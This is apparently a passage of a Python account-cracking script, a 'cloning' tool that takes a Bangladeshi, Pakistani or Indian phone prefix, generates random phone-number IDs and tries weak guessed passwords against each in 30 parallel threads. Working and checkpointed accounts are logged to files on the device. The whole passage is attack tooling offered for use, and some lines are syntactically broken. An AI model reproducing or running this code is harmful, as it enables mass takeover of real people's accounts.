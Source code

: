 def pass3():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER D4DY-M4H1N\033[1;91m                :\033[1;96m "+D4DY-M4H1NX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m3') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,'khankhan']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()
